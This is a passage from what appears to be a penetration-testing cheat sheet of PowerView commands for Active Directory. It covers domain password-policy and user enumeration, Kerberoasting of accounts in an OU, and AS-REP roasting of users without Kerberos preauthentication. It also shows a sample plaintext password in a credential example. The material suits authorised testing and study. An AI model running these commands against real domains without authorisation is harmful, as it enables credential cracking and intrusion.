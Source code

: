 ## <a name='ENUM:Kerberoasting'></a>TXXXX Credentials Dumping
```powershell
# get the domain policy settings for the passwords: history, complexicity, lockout, clear-text
(Get-DomainPolicy)."system access"

# get all users with passwords changed > 1 year ago, returning sam account names and password last set times
$Date = (Get-Date).AddYears(-1).ToFileTime()
Get-DomainUser -LDAPFilter "(pwdlastset<=$Date)" -Properties samaccountname,pwdlastset,useraccountcontrol

# get the last password set of each user in the current domain
Get-UserProperty -Properties pwdlastset
```

### <a name='ENUM:Kerberoasting'></a>Kerberoasting
```powershell
# Kerberoast any users in a particular OU with SPNs set
Invoke-Kerberoast -SearchBase "LDAP://OU=secret,DC=<Domain>,DC=local"
```

### <a name='ENUM:Kerberoasting'></a>AS-REPoasting
```powershell
# check for users who don't have kerberos preauthentication set
Get-DomainUser -PreauthNotRequired
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```

## <a name='MISC'></a>MISC
```powershell
# get all the groups a user is effectively a member of, 'recursing up' using tokenGroups
Get-DomainGroup -MemberIdentity <User/Group>

# use an alterate creadential for any function
$SecPassword = ConvertTo-SecureString 'BurgerBurgerBurger!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat', $SecPassword)
Get-DomainUser -Credential $Cred

# all enabled users, returning distinguishednames
Get-DomainUser -LDAPFilter "(!userAccountControl:1.2.840.113556.1.4.803:=2)" -Properties distinguishedname
Get-DomainUser -UACFilter NOT_ACCOUNTDISABLE -Properties distinguishedname

# all disabled users
Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=2)"
Get-DomainUser -UACFilter ACCOUNTDISABLE

# all users that require smart card authentication
Get-DomainUser -LDAPFilter "(useraccountcontrol:1.2.840.113556.1.4.803:=262144)"
Get-DomainUser -UACFilter SMARTCARD_REQUIRED

# all users that *don't* require smart card authentication, only returning sam account names
Get-DomainUser -LDAPFilter "(!useraccountcontrol:1.2.840.113556.1.4.803:=262144)" -Properties samaccountname
Get-DomainUser -UACFilter NOT_SMARTCARD_REQUIRED -Properties samaccountname

# use multiple identity types for any *-Domain* function
'S-1-5-21-890171859-3433809279-3366196753-1114', 'CN=dagreat,CN=Users,DC=<Domain>,DC=local','4c435dd7-dc58-4b14-9a5e-1fdb0e80d201','administrator' | Get-DomainUser -Properties samaccountname,lastlogoff

# find all computers in a given OU
```